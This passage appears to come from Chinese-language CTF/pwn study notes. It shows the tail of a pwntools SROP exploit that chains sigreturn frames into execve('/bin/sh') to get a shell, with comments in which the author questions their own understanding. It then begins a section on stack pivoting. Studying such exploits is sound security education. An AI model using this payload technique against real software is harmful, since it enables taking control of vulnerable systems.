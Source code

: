   ```
  frame.rsp = stack_addr
  frame.rip = syscall_addr
  payload = p64(main_addr) + p64(0) + str(frame)
  p.send(payload)
  
  #通过控制输入的字符数量，调用sigreturn
  payload = p64(syscall_addr) + "\x00"*(15-8)
  p.send(payload)    
  #疑问:之前构造farme时，我们只往栈上写了8个字节的0，现在写入15个字节，那么多余的7个字节不会淹没构造的frame(read)吗？这可能与pwntools实现的SigreturnFrame内部的具体结构有关
  
  #输入15个字节后，此时rax是15，程序执行完read之后，ret跳转到syscall，执行sigreturn系统调用，根据frame设定的结构，程序接下来会执行read(0,stack_addr,0x400)
  #疑问：sigreturn以什么为依据来确定栈中的sigframe，怎么确定使用的是我们给定的frame(read)
  
  #read(0,stack_addr,0x400)执行完之后，等待数据的输入，此时我们需要输入构造的frame(execve),至于binsh字符串可以将它放在栈的后面部分，只要rdi能够正确的指向他的地址即可
  #构造拿shell的frame
  frame = SigreturnFrame(kernel = "amd64")
  frame.rax = constants.SYS_execve
  frame.rdi = stack_addr + 0x150    #binsh字符串的地址，后面会构造
  frame.rsi = 0x0
  frame.rdx = 0x0
  frame.rsp = stack_addr
  frame.rip = syscall_addr
  frame_payload = p64(main_addr) + p64(0) +str(frame)
  payload = frame_payload + (0x150-len(frame_payload))*"\x00" + "/bin/sh\x00"
  p.send(payload)
  
  payload = p64(syscall_addr) + "\x00"*(15-8)
  p.send(payload)
  
  p.interactive()
  ```



# 花式栈溢出技巧

## stack pivoting

### 原理

栈迁移：劫持栈指针指向攻击者所能控制的内存处，然后再在相应的位置进行 ROP

### 使用场景

- 可以控制的栈溢出的字节数较少，难以构造较长的 ROP 链
- 开启了 PIE 保护，栈地址未知，我们可以将栈劫持到已知的区域。
- 其它漏洞难以利用，我们需要进行转换，比如说将栈劫持到堆空间，从而在堆上写 rop 及进行堆漏洞利用
